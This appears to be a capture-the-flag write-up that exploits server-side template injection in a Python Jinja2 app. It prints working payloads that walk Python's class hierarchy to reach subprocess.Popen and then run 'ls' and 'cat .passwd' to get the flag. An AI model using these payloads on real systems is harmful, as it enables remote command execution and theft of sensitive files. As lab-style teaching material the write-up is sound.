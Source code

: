 Solution: Template Injection Vulnerability Exploitation

![serverside](https://github.com/hamid-sheibani/challenges/assets/78083936/e2cea6c3-3cf8-403f-8744-05a59cb459d9)


Overview:
In this challenge, we encountered two input fields requiring template injection testing. Given the Python-based nature of the application, we opted to test for vulnerabilities in Jinja2, a prevalent template engine. Here's how we proceeded:

Step 1: Identifying Jinja2 Functions:
We utilized the following payload to access Jinja2 functions used in the program:


{{ ''.__class__.__mro__[1].__subclasses__() }}

Explanation:

    '': This is an empty string. It's used as a starting point to access attributes and methods.
    .__class__: This accesses the class of an object. In this case, the empty string.
    .__mro__: This accesses the method resolution order (MRO) of the class, which is a tuple of classes the class inherits from.
    [1]: This accesses the second element in the MRO tuple. In Python, the second element of the MRO tuple typically refers to the superclass of the class.
    .__subclasses__(): This retrieves a list of all subclasses of the specified class.

Output of the above payload provides us with all classes. We then copied them into a file and searched for the object class using the following Linux commands:


sed 's/\\,/\\n/g' list.txt > new_list.txt
cat -n new_list.txt | grep object

This helped us identify subprocess.Popen() at index 408.

Step 2: Executing Commands:
To execute commands such as ls -lah and view all files, including hidden ones, we crafted the following payload:


{{ ''.__class__.__mro__[1].__subclasses__()[408]("ls -lah", shell=True, stdout=-1).communicate() }}

Executing this payload returned the contents of the .passwd file, revealing sensitive information.

Step 3: Retrieving the Flag:
Lastly, we utilized a similar payload to read the .passwd file and uncovered the flag:


{{ ''.__class__.__mro__[1].__subclasses__()[408]("cat .passwd", shell=True, stdout=-1).communicate() }}

This returned the flag: Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!

                    



